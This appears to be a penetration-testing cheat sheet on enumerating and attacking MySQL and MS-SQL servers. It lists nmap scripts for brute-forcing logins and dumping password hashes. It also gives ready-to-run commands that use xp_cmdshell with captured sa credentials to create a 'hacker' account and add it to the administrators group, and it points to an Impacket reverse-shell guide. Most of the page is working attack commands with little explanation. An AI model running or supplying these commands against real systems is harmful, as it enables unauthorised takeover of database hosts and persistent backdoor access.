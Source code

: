 # MS-SQL and MySQL Enumeration Tools

## mysql

```
$ ls -lh /usr/share/nmap/scripts/ | grep mysql
-rw-r--r-- 1 root root 6.5K Oct 12 09:29 mysql-audit.nse
-rw-r--r-- 1 root root 3.0K Oct 12 09:29 mysql-brute.nse
-rw-r--r-- 1 root root 2.9K Oct 12 09:29 mysql-databases.nse
-rw-r--r-- 1 root root 3.2K Oct 12 09:29 mysql-dump-hashes.nse
-rw-r--r-- 1 root root 2.0K Oct 12 09:29 mysql-empty-password.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 mysql-enum.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 mysql-info.nse
-rw-r--r-- 1 root root 3.7K Oct 12 09:29 mysql-query.nse
-rw-r--r-- 1 root root 2.8K Oct 12 09:29 mysql-users.nse
-rw-r--r-- 1 root root 3.2K Oct 12 09:29 mysql-variables.nse
-rw-r--r-- 1 root root 6.9K Oct 12 09:29 mysql-vuln-cve2012-2122.nse
```

```
$ nmap x.x.x.x -p 3306 -sV --script=
```

Connect manually:

```
mysql -u {username} -p'{password}' \
    -h {remote server ip or name} -P {port} \
    -D {DB name}
```

For example

```
mysql -u root -p'root' \
        -h 127.0.0.1 -P 3306 \
        -D local
```

Basic enumeration:
- `show databases;`
- `list databases;`
- `use <database>;`
- `list tables;`
- `show tables;`
- `SELECT * FROM <table>;*`

## ms-sql

```
$ ls -lh /usr/share/nmap/scripts/ | grep ms-sql
-rw-r--r-- 1 root root 3.8K Oct 12 09:29 broadcast-ms-sql-discover.nse
-rw-r--r-- 1 root root  12K Oct 12 09:29 ms-sql-brute.nse
-rw-r--r-- 1 root root 6.0K Oct 12 09:29 ms-sql-config.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 ms-sql-dac.nse
-rw-r--r-- 1 root root 4.3K Oct 12 09:29 ms-sql-dump-hashes.nse
-rw-r--r-- 1 root root 7.0K Oct 12 09:29 ms-sql-empty-password.nse
-rw-r--r-- 1 root root 5.9K Oct 12 09:29 ms-sql-hasdbaccess.nse
-rw-r--r-- 1 root root  12K Oct 12 09:29 ms-sql-info.nse
-rw-r--r-- 1 root root 3.9K Oct 12 09:29 ms-sql-ntlm-info.nse
-rw-r--r-- 1 root root 4.7K Oct 12 09:29 ms-sql-query.nse
-rw-r--r-- 1 root root 9.2K Oct 12 09:29 ms-sql-tables.nse
-rw-r--r-- 1 root root 6.2K Oct 12 09:29 ms-sql-xp-cmdshell.nse
```

```
$ nmap x.x.x.x -p 1433 -sV --script=exampleScript1.nse,exampleScript2.nse
```

If mssql credentials are found, can use the following nmap script to add a user:
1. Use nmap mssql script with newly found creds and added a user:

```
$ nmap x.x.x.x -p 1433 -sV --script=ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd='net user hacker hacker93 /add'
```

2. Then added user to admin group with same script:

```
$ nmap x.x.x.x -p 1433 -sV --script=ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd='net localgroup administrators hacker /add'
```

Connect manually:

```
$ sqsh -S x.x.x.x -U sa -P password
1> xp_cmdshell 'whoami'
```

or with Impacket:

```
$ /opt/impacket-0.9.21/examples > mssqlclient.py username@x.x.x.x
```

Reference: https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/

